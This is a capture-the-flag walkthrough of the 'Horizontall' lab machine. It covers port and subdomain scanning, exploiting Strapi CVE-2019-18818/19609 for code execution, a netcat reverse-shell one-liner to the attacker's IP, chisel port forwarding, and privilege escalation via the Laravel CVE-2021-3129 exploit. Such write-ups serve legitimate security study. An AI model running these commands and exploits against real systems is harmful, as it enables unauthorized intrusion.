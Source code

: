 # Horizontall

The first thing I did was run a <mark style="color:green;">`Rustscan`</mark> on the target to quickly gather open ports.

```bash
rustscan -a 10.129.151.240 -- -A -sC -sV
```

```bash
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDL2qJTqj1aoxBGb8yWIN4UJwFs4/UgDEutp3aiL2/6yV2iE78YjGzfU74VKlTRvJZWBwDmIOosOBNl9nfmEzXerD0g5lD5SporBx06eWX/XP2sQSEKbsqkr7Qb4ncvU8CvDR6yGHxmBT8WGgaQsA2ViVjiqAdlUDmLoT2qA3GeLBQgS41e+TysTpzWlY7z/rf/u0uj/C3kbixSB/upkWoqGyorDtFoaGGvWet/q7j5Tq061MaR6cM2CrYcQxxnPy4LqFE3MouLklBXfmNovryI0qVFMki7Cc3hfXz6BmKppCzMUPs8VgtNgdcGywIU/Nq1aiGQfATneqDD2GBXLjzV
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIyw6WbPVzY28EbBOZ4zWcikpu/CPcklbTUwvrPou4dCG4koataOo/RDg4MJuQP+sR937/ugmINBJNsYC8F7jN0=
|   256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJqmDVbv9RjhlUzOMmw3SrGPaiDBgdZ9QZ2cKM49jzYB
80/tcp open  http    syn-ack nginx 1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://horizontall.htb
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We add <mark style="color:green;">`horizontall.htb`</mark> to our <mark style="color:green;">`/etc/hosts`</mark> file since in the output we got "_Did not follow redirect to http://horizontall.htb_"

![](<../../../../.gitbook/assets/image (7) (1) (1) (2).png>)

Searching on Google informs us that the latest version of <mark style="color:green;">`nginx`</mark> is 1.21.6 (mainline version) and 1.20.2 (stable version). We'll keep this in mind.

Going to the site, we see a web page.

![](<../../../../.gitbook/assets/image (36) (2).png>)

Viewing the source code and going through the site really did not provide anything useful. However, is it possible for the <mark style="color:green;">`nginx`</mark> server to have more vhosts or subdomains? Using <mark style="color:green;">`ffuf`</mark>, we will see something.

```bash
ffuf -u http://horizontall.htb -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H 'Host: FUZZ.horizontall.htb' -fs 0 -mc 200 
```

![api-prod subdomain](<../../../../.gitbook/assets/image (30) (1) (1).png>)

Heading back over to the browser, we are presented with a basic welcome page.

![](<../../../../.gitbook/assets/image (42) (1).png>)

Time to enumerate some more. Now there are two interesting directories that we can explore.

![](<../../../../.gitbook/assets/image (35) (1).png>)

The reviews directory yields us some users: <mark style="color:green;">`wail`</mark>, <mark style="color:green;">`doe`</mark>, and <mark style="color:green;">`john`</mark>

![](<../../../../.gitbook/assets/image (33) (1).png>)

And the admin page

![](<../../../../.gitbook/assets/image (40) (1) (1).png>)

Doing a google search on <mark style="color:green;">`strapi`</mark> shows that it is an open source Node.js headless Content Management System (CMS)

Great! Now hopefully we can find a version number somewhere...

![](<../../../../.gitbook/assets/image (16) (1).png>)

It seems the current version of is <mark style="color:green;">`Strapi 3.0.0-beta.17.4`</mark>

![](<../../../../.gitbook/assets/image (37) (1).png>)

Using <mark style="color:green;">`searchsploit`</mark> gives us some good news. Remote Code Execution ([RCE](https://www.exploit-db.com/exploits/50239))!

![](<../../../../.gitbook/assets/image (58).png>)

According to [CVE-2019-18818](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2019-18818)

> strapi before 3.0.0-beta.17.5 mishandles password resets within packages/strapi-admin/controllers/Auth.js and packages/strapi-plugin-users-permissions/controllers/Auth.js."

There's also [CVE-2019-19609](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-19609)

> The Strapi framework before 3.0.0-beta.17.8 is vulnerable to Remote Code Execution in the Install and Uninstall Plugin components of the Admin panel, because it does not sanitize the plugin name, and attackers can inject arbitrary shell commands to be executed by the execa function.

We run the exploit and then login

![](<../../../../.gitbook/assets/image (63).png>)

![](<../../../../.gitbook/assets/image (24) (1) (1).png>)

Awesome! Now there's Plugin called "Files Upload", let's see if we can upload a file to get a reverse shell.

I tried multiple times to get a shell, but the output of following the file yielded something like this:

![](<../../../../.gitbook/assets/image (69) (1).png>)

```
http://localhost:1337/uploads/0083c7ac6ed14dce9cc54821af03bf08.php
```

Which made sense based on the exploit code (that's why we see port 1337). I was thinking about if we could do something with changing the port, but that seemed like something too complex and lead to a deep rabbit hole. Then I thought, if we have RCE already from the exploit, couldn't we just try to get a shell that way?

As it turns out, that was a very quick solution

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.38 4444 >/tmp/f
```

![](<../../../../.gitbook/assets/image (64) (1).png>)

After upgrading my shell, I searched for the user.txt file

![](<../../../../.gitbook/assets/image (46) (1).png>)

I ran linepeas.sh and noticed something interesting. Looks like there is MySQL running and something else on port 8000. What is that port used for?

![](<../../../../.gitbook/assets/image (41) (1) (1).png>)

A Google search gave me this result

> TCP Port 8000 is commonly used for development environments of web server software. It generally should not be exposed directly to the Internet. If you are running software like this on the Internet, you should consider placing it behind a reverse proxy.
>
> [Source](https://www.elastic.co/guide/en/siem/guide/current/tcp-port-8000-activity-to-the-internet.html)

This most likely means we might have to do some port forwarding in order to see the website. But first let's see if we can grab some information before doing this.

Using <mark style="color:green;">`curl -v localhost:8000`</mark> gave us a site powered by Laravel AND it's version number

![](<../../../../.gitbook/assets/image (65).png>)

Searching for exploits I found these which were helpful

{% embed url="https://www.exploit-db.com/exploits/49424" %}

{% embed url="https://www.ambionics.io/blog/laravel-debug-rce" %}

{% embed url="https://github.com/nth347/CVE-2021-3129_exploit" %}

According to [CVE-2021-3129](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2021-3129)

> Ignition before 2.5.2, as used in Laravel and other products, allows unauthenticated remote attackers to execute arbitrary code because of insecure usage of file\_get\_contents() and file\_put\_contents(). This is exploitable on sites using debug mode with Laravel before 8.4.2.

#### Port Forwarding

Now to do some port forwarding. We'll use the [chisel ](https://github.com/jpillora/chisel)tool

We'll transfer it to our victim machine and make it an executable

![](<../../../../.gitbook/assets/image (34).png>)

Then we'll run the below commands on our kali machine and the victim machine respectively

```bash
./chisel server -p 7777 --reverse # Kali machine
./chisel client 10.10.14.38:7777 R:8000:127.0.0.1:8000 # on Victim
```

![](<../../../../.gitbook/assets/image (38) (1).png>)

![Victim machine](<../../../../.gitbook/assets/image (5) (2).png>)

Now when we go to <mark style="color:green;">`http://127.0.0.1:8000`</mark> in the browser, we can see the Laravel site

![](<../../../../.gitbook/assets/image (49) (1).png>)

#### Priv Esc

Using the GitHub resource for the Laravel vulnerability, we'll execute the following command

```python
./privesc.py http://localhost:8000 Monolog/RCE1 "whoami"
```

![](<../../../../.gitbook/assets/image (67) (1) (2).png>)

Awesome! Now we can cat the root.txt file

![](<../../../../.gitbook/assets/image (59).png>)

This is nice, but a shell would be nicer :)

![](<../../../../.gitbook/assets/image (18) (1) (1).png>)

![](<../../../../.gitbook/assets/image (55) (1).png>)

{% hint style="info" %}
Although we get a shell, it's not very stable. But it does the job regardless
{% endhint %}

SUCCESS!

![](<../../../../.gitbook/assets/image (15) (1).png>)
